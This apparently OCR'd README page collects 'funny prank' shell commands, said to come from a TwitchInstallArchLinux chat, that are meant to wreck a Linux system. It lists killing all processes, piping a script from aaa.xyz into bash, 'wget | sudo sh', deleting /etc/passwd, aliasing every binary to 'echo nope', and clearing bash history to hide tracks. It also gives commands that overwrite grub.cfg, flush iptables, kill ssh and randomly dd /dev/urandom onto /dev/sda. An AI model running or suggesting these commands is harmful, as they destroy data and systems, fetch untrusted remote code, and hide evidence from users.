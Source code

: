 ```bash
kill -9 -1
```

#### get an .sh file that would do everything for us if we just curl it from the web,

    curl aaa.xyz/a.sh | bash

- 7:08inluck_nl: write a bash script
- 7:08inluck_nl: host it
- 7:08inluck_nl: get networking up
- 7:08inluck_nl: wget and run

write a script we can `wget | sudo sh`

- Rm -f /etc/passwd(this kicks out some really neat errors)

Funny prank

```bash
for i in ls /usr/bin
do
alias $i='echo nope'
done
```

bash_history

`. .bash_history` or add `history - c` at the end..

- `cat /dev/urandom > /dev/mouse`
- `pkill ssh`
- `echo "oh shit" > /boot/grub2/grub.cfg ; reboot`
- `cat /proc/kcore > /dev/dsp`
- `cat /dev/sda1 > /dev/tty0`
- `Iptables -F`
- `sudo startx &`
- `[ $[ $RANDOM % 2 ] == 0 ] && dd if=/dev/urandom of=/dev/sda || echo 'Meow'`

### Notes

These were inspired from TwitchInstallArchLinux chat.

### Links

- [List of dangerous shell commands](https://docs.google.com/forms/d/e/1FAIpQLSfTwnopvY7UYcSf-1QOkHTFUkow4mPeuses7ibDRAxPs7BptQ/viewform)
- [comments on this nixCraft facebook msg](https://web.facebook.com/plugins/post.php?href=https%3A%2F%2Fweb.facebook.com%2Fnixcraft%2Fposts%2F1776674342345936)
- [nixCraft: My 10 UNIX Command Line Mistakes](https://www.cyberciti.biz/tips/my-10-unix-command-line-mistakes.html?utm_source=facebook)
